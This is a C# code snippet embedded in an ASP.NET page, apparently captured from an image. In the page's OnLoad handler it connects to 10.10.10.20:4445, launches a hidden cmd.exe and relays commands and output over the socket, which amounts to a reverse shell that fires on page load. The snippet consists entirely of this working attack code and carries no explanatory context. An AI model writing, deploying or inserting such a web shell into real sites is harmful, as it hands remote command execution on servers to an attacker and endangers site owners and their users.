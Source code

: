```
	static System.IO.StreamWriter streamWriter;

    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);

	using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("10.10.10.20", 4445)) {
		using(System.IO.Stream stream = client.GetStream()) {
			using(System.IO.StreamReader rdr = new System.IO.StreamReader(stream)) {
				streamWriter = new System.IO.StreamWriter(stream);
						
				StringBuilder strInput = new StringBuilder();

				System.Diagnostics.Process p = new System.Diagnostics.Process();
				p.StartInfo.FileName = "cmd.exe";
				p.StartInfo.CreateNoWindow = true;
				p.StartInfo.UseShellExecute = false;
				p.StartInfo.RedirectStandardOutput = true;
				p.StartInfo.RedirectStandardInput = true;
				p.StartInfo.RedirectStandardError = true;
				p.OutputDataReceived += new System.Diagnostics.DataReceivedEventHandler(CmdOutputDataHandler);
				p.Start();
				p.BeginOutputReadLine();

				while(true) {
					strInput.Append(rdr.ReadLine());
					p.StandardInput.WriteLine(strInput);
					strInput.Remove(0, strInput.Length);
				}
			}
		}
    	}
    }

    private static void CmdOutputDataHandler(object sendingProcess, System.Diagnostics.DataReceivedEventArgs outLine) {
   	StringBuilder strOutput = new StringBuilder();

       	if (!String.IsNullOrEmpty(outLine.Data)) {
       		try {
                	strOutput.Append(outLine.Data);
                    	streamWriter.WriteLine(strOutput);
                    	streamWriter.Flush();
                } catch (Exception err) { }
        }
    }

</script>
<asp:PlaceHolder ID="phContent" runat="server" EnableViewState="false"></asp:PlaceHolder>
```
